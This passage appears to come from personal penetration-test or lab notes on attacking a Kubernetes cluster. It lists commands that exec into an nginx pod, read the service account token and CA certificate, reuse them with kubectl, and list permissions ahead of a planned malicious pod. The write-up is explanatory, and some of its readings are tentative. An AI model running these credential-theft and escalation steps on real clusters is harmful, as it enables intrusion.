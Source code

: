 	- Tested the authentication endpoint at `8443`
		- returns forbidden:
			- probably aforementioned RBAC means we can't access that path on that endpoint?
	- `kc --server $ip pods`
		- enumerates the pod space.
		- we see 8:
			- kube-apiserver, kube-controller-manager, kube-scheduler, etcd, storage-provisioner, kube-proxy, coredns, nginx
		- nginx looks potential
	- `kc --server $ip scan rce`
		- It's nice that this tool has a rce scanner, will have to investigate how to do it with `kubectl` -- there is an exec function with it.
- **Next Steps:** 
	- Utilize command function to find tokens.

##### Get ca.cry and token (and maybe look at namespace).

- **Timestamp:** 2025-09-18 15:19
- **Action:** We'll use the RCE to execute basic system commands and try to privesc with that.
- **Commands:** 
	- `kc --server $ip exec "id" -p nginx -c nginx`
	- `kc --server $ip exec "ls /var/run/secrets/kubernetes.io/serviceaccount/" -p nginx -c nginx`
	- `kc --server $ip exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx`
	-  `kc --server $ip exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx`
- **Notes:** 
	- Straightforward data exfil, with assistance of hackdocs for useful folders to check for creds.
- **Next Steps:** 
	- Use the creds in actual `kubectl`

##### Using the creds to access higher infra

- **Timestamp:** 2025-09-18 15:34
- **Action:** Export token, cert, to kubectl. Use it to access central infra.
- **Commands:** 
	- `export token="$(cat token)"`
	- `kubectl --token=$token --certificate-authority=./ca.crt --server=https://$ip:8443 get pods`
	- `kubectl --token=$token --certificate-authority=./ca.crt --server=$ip:8443 get pods`
- **Notes:** 
	- **MAKE SURE TO PREPEND HTTPS TO $IP.**
		- Classic error codes not returning useful data lol.
- **Next Steps:** 
	- Confirmed access.
	- Now to check what we can do.

##### Checking can-i

- **Timestamp:** 2025-09-18 16:18
- **Action:** 
	- Checked what we can do with `can-i`.
		- This info is in hackdocs internal enumeration section.
- **Commands:**
	- `kubectl --token=$token --certificate-authority=./ca.crt --server=https://$ip:8443 auth can-i --list`
- **Notes:** 
	- `selfsubjectrulesreviews.authorization.k8s.io[][][create]`
		- Looks like we can create a pod.
		- Pretty trivial to make a container probably, I don't have much experience with kube.
- **Next Steps:** 
	- Create malicious kubelet.
